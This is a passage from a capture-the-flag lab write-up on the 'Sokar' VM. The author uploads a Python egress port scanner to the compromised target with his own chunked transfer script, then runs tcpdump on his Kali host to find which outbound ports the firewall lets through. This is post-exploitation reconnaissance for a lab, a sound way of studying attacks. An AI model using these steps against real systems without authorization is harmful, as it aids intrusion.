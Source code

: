 ## egress firewalls le-suck
With the file transfer script done, I coded up a small 'port scanner' (though all it really does is try to connect to a port and move on to the next within 0.1s):

```python
#!/usr/bin/python

# Sokar Egress Port Scanner
# 2015 Leon Jacobs

import socket

for port in xrange(1, 65535):

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(0.1)
    print "Trying port %d" % port
    sock.connect_ex(("192.168.217.174", port))
    sock.close()

```

... and transferred it to Sokar using my `transfer.py` script:

```bash
leonjza@kali/sokar $ python transfer.py port_scan.py /tmp/port_scan.py
 * Starting transfer of local 'port_scan.py' to remote '/tmp/port_scan.py'
 * Temp file on remote will be: /tmp/cf8ca858a40ecf06741824362c37df.txt
 * Transferring 10 chunks to /tmp/cf8ca858a40ecf06741824362c37df.txt
 * Chunk 1/10 transferred
 * Chunk 2/10 transferred
 * Chunk 3/10 transferred
 * Chunk 4/10 transferred
 * Chunk 5/10 transferred
 * Chunk 6/10 transferred
 * Chunk 7/10 transferred
 * Chunk 8/10 transferred
 * Chunk 9/10 transferred
 * Chunk 10/10 transferred
 * Decoding hex on remote
 * Cleaning up temp file /tmp/cf8ca858a40ecf06741824362c37df.txt
 * Local 'port_scan.py' transferred to remote '/tmp/port_scan.py'
```

I also opened up a `tcpdump` on my local Kali Linux VM, filtering out `tcp/591` as well as `arp` traffic:

```bash
leonjza@kali/sokar $ tcpdump -i eth1 not arp and not port 591
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes

```
